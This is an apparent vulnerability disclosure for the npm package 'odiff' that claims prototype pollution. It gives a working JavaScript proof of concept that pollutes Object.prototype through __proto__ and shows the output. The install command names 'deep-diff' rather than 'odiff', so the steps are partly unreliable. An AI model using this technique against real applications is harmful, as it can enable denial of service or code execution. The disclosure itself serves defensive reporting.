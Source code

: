 # Description

`odiff` is vulnerable to `Prototype Pollution`.
This package allowing for modification of prototype behavior, which may result in Information Disclosure/DoS/RCE.


# Proof of Concept

1. Create the following PoC file:

```js
// poc.js
var odiff = require("odiff")
var a = {name: "xyz"};
var b = JSON.parse(JSON.stringify(a));
b.__proto__.name = "Yes! Its Polluted";
odiff(a, b);
console.log({}.name) 
```

2. Execute the following commands in another terminal:

```bash
npm i deep-diff # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Yes! Its Polluted
```

